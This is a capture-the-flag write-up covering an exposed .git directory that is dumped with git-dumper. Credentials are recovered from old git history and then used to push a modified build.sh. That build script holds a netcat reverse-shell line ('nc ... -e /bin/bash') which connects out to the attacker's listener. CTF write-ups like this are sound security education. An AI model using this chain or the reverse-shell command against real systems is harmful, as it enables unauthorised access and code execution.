


## TL;DR
- Brute-force directories.
- Find the .git directory
- Extract the repo with git-dumper (https://github.com/arthaud/git-dumper)
- Find the credientials in the git history of an old branch
- Write to the repo with the extracted creds and get code execution

## Complete Writeup

With gobuster, we found that there is a .git directory on the server.
Then we installed git-dumper with `pip3 install git-dumper`
Then extracted the repo with:
`~/.local/bin/git-dumper https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land//website-repo/.git ~/Documents/openecsc/repo_dump`



There was nothing too interesting in the files. 
With  gitkraken we did some further exploration and found an old version of the README.md with had credientials in them:


As the build.sh gets executed on each push, we modified it to get us a nc reverse shell back:

```bash
#!/bin/bash

cp index.html.tpl index.html
nc 10.13.0.xxx 5555 -e /bin/bash

```
Then we started a listener with `nc -lnvp 5555`

And pushed to the repo:
`git push https://ea439dee-8c4d-4ead-aa86-40a208094d02.idocker.vuln.land/.git-server/website.git/`

We get a reverse shell back and get the flag. (Sorry I did not save the flag.)


## Lessons learned
Its often easier to use a GUI tool to explore all branches and commits of a git repo.
